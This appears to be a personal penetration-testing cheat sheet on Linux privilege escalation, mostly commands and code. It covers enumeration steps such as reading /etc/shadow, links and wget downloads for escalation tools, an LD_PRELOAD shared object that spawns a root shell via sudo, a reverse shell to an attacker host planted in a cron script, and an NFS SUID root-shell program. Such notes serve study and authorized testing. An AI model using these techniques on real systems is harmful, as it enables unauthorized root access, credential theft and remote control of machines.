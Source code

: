 #linux/LPE
# Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	   * Detect hash type in `/etc/shadow` using `grep ENCRYPT_METHOD /etc/login.defs`
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
* `find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep htb-student` - file all hidden files
* `find / -type d -name ".*" -ls 2>/dev/null` - all hidden dirs
* `ls -l /tmp /var/tmp /dev/shm` - tmp files
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
	* `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)
## psspy
Spy on running process to find passed function arguments like passwords
https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
#### SUID
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins
#### Capabilities
1. `getcap -r / 2>/dev/null`
2. Check gtfobins
#### Cron
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`

#### [[NFS]]
List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```
## Local ports
Show ports in use:
```bash
ss -tnl

ss -tunlp` to find hidden ports
```
Display default service for each port in use:
```bash
ss -tl
```
Discover open ports and services:
```shell
netstat -tulpn | grep LISTEN
```
## Case 1. Bash
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
	/usr/bin/echo "Password confirmed!"
else
	/usr/bin/echo "Password confirmation failed!"
exit 1
fi
```
This is due to the use of == inside [[ ]] in Bash , which performs pattern matching rather than
a direct string comparison; more on this can be found https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29
## Case 2. tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com